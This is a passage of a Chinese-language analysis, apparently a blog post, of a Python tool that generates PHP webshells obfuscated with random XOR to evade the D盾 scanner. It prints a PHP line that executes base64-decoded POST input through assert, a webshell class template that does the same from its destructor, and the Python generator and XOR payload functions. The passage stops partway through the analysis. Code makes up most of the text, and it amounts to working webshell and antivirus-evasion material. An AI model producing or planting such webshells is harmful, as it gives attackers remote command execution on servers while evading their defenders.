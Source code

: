 ```
return assert("isset($_GET['id'])?base64_decode($_POST['mr6']):$_POST['mr6']");
```

这个利用随机异或无限免杀D盾的核心其实就是这个点了，至于异或个人认为也是很巧妙的，下面分析其利用随机异或生成payload的代码：

其生成的shellcode的模型如下：(当前免杀失效的主要原因个人认为还是此模型被杀了)

```
shell_form ='''&lt;?php
class `{`class_name`}``{``{`
    function __destruct()`{``{`
        $`{`var_name1`}`=`{`func1`}`;
        return @$`{`var_name1`}`("$this-&gt;`{`var_name2`}`");
    `}``}`
`}``}`
$`{`objname`}`=new `{`class_name`}`();
@$`{`objname`}`-&gt;`{`var_name2`}`=isset($_GET['id'])?base64_decode($_POST['mr6']):$_POST['mr6'];
?&gt;'''
```

其实参考我对上述对木马样例分析，就很容易理解这个木马模型了，`{`class_name`}`、`{`var_name1`}`、`{`var_name2`}`、`{`objname`}`都是利用python代码随机生成的名称，随便写即可。下面需要说明的是`{`func1`}`值的生成。其实利用yzddmr6表哥的python生成的所有的不同点都在这`{`class_name`}`、`{`var_name1`}`、`{`var_name2`}`、`{`objname`}`、`{`func1`}`五个点，除了上述解释的模型是核心之外，就是这个`{`func1`}`了。

`{`func1`}`的生成过程如下：

首先查看gen_webshell()函数，即webshell生成函数：

```
def gen_webshell():
    class_name = random_name(4)
    objname = class_name.lower()
    webshell=shell_form.format(class_name=class_name,func_name=random_name(4),objname=objname,var_name1=random_name(4),var_name2=random_name(4),func1=gen_payload(func1))
    print(webshell)
```

我们可以很清楚的看到倒数第二行中有`func1=gen_payload(func1)`即func1是由gen_payload函数生成的，查看了整体代码得知其中gen_payload函数中的参数func1的值为assert,我继续查看gen_payload函数如下：

```
def gen_payload(func):
    func_line1 = ''
    func_line2 = ''
    key = random_keys(len(func))
    for i in range(0,len(func)):
        enc = xor(func[i],key[i])
        func_line1 += key[i]
        func_line2 += enc
    payload = ''`{`0`}`'^"`{`1`}`"'.format(func_line1,func_line2)
    return payload
```

这个函数中又包含了两个小函数random_keys()和xor()，那么我就先分析这两个小函数吧：

random_keys函数：
